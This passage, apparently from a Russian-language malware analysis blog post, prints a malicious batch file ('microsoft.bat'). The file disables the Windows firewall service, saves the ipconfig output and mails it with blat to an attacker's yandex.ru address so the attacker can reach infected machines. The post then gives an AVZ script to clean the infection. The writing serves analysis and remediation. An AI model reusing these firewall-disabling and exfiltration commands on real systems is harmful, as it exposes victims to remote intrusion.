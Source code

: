 <strong>microsoft.bat</strong><br /><blockquote style="border-left-color: rgb(187, 187, 187); border-left-style: solid; border-left-width: 2px; clear: both; margin-bottom: 0.83em; margin-left: 0px; margin-right: 0px; margin-top: 0.83em; padding-bottom: 0px; padding-left: 15px; padding-right: 0px; padding-top: 0px;">sc config SharedAccess start= disabled<br />sc stop SharedAccess<br />ipconfig /all&gt;%SYSTEMROOT%\Help\win32/ip.txt<br />%SYSTEMROOT%/help/win32/blat.exe %systemroot%/help/win32/ip.txt -to ufanetcom2@yandex.ru. exit</blockquote><br />Второй батник уже в который раз отключает системный фаерволл, а так же выполняет команду ipconfig /all с сохранением вывода в текстовый файл, который в дальнейшем отправится с помощью blat по адресу ufanetcom2@yandex.ru, короче говоря — отправит ip-адрес для подключения злоумышленника к инфицированной машине.<br /><br />На этом, в общем-то, все, анализ закончен. Анализ совершенно статичен, запускать в виртуальной среде ничего не пришлось, все банально. Но тем не менее, зайдя на почту я видел большое количество писем с ip-адресами жертв. Ниже будет приведен скрипт AVZ для лечения системы.<br /><pre style="font-size: 1em; margin-bottom: 0px; margin-left: 0px; margin-right: 0px; margin-top: 0px; padding-bottom: 0px; padding-left: 0px; padding-right: 0px; padding-top: 0px; white-space: pre-wrap;">begin SearchRootkit(true, true); SetAVZGuardStatus(True); StopService('r_server'); DeleteService('r_server', true ); TerminateProcessByName('c:\windows\help\win32\svchost.exe'); DeleteFile('C:\WINDOWS\ff.bat'); DeleteFile('C:\WINDOWS\SYSTEM.DLL'); DeleteFileMask('C:\WINDOWS\help\win32', '*.*', true); BC_ImportAll; ExecuteSysClean; ExecuteWizard('TSW',2,3,true); BC_Activate; RebootWindows(true); end.</pre></span></div></div>
